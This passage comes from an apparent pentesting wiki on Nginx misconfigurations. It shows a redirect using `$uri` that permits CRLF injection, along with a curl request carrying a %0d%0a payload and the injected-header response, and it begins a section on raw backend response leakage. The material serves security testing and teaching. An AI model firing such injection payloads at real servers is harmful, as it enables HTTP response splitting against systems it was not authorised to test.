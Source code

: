 With a configuration such as the following:

```
location / {
  return 302 https://example.com$uri;
}
```

The misconfiguration related is to use `$uri` or `$document_uri` instead of `$request_uri` which results in a **CRLF injection**. This is because this two variables contain the normalized URI whereas the normalization in Nginx includes URL decoding.
{% endtab %}

{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, there is an CRLF vulnerability.\
URL-encoding the new line characters (\r\n) results in the following representation of the characters `%0d%0a`.\
When these characters are included in a request like `http://localhost/%0d%0aDetectify:%20clrf` to a server with the misconfiguration, the server will respond with a new header named Detectify since the $uri variable contains the URL-decoded new line characters.

```bash
#We send the following request
curl http://example.com/%0d%0aDetectify:%20clrf

#The server respond with a new header named Detectify
#since the $uri variable contains the URL-decoded new line characters.
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.19.3
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: https://example.com/
Detectify: clrf
```

learn more about CRLF and TTP response splitting [here](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/)
{% endtab %}
{% endtabs %}

### Raw Backend Response Reading

{% tabs %}
{% tab title="Enumeration" %}
In Nginx, `proxy_pass` you can intercept errors and HTTP headers created by the backend. This is very useful if you want to hide internal error messages. But if client sends an invalid HTTP request, it will be forwarded as-is to the backend, the backend will answer with its raw content, and then Nginx won’t understand the invalid HTTP response and just forward it to the client.

With a configuration such as the following:

```
http {
   error_page 500 /html/error.html;
   proxy_intercept_errors on;
   proxy_hide_header Secret-Header;
}
```
